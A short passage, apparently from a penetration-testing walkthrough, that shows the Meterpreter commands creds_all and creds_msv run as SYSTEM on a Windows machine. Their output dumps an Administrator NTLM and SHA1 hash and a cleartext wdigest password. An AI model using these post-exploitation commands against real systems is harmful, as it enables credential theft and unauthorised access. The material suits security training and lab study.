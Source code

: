 ```
```
* now we can simply use those above commands to privesc our target machine
* here are some examples
`cheds_all`
```
meterpreter > creds_all 
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain    NTLM                              SHA1
--------       ------    ----                              ----
Administrator  haris-PC  cdf51b162460b7d5bc898f493751a0cc  dff1521f5f2d7436a632d26f079021e9541aba66

wdigest credentials
===================

Username       Domain     Password
--------       ------     --------
(null)         (null)     (null)
Administrator  haris-PC   ejfnIWWDojfWEKM
HARIS-PC$      WORKGROUP  (null)

kerberos credentials
====================

Username       Domain     Password
--------       ------     --------
(null)         (null)     (null)
Administrator  haris-PC   (null)
haris-pc$      WORKGROUP  (null)
```
`cheds_msv`
```
meterpreter > creds_msv
[+] Running as SYSTEM                                                                                                                                        
[*] Retrieving msv credentials                                                                                                                               
msv credentials                                                                                                                                              
===============                                                                                                                                              
                                                                                                                                                             
Username       Domain    NTLM                              SHA1                                                                                              
--------       ------    ----                              ----                                                                                              
Administrator  haris-PC  cdf51b162460b7d5bc898f493751a0cc  dff1521f5f2d7436a632d26f079021e9541aba66
```
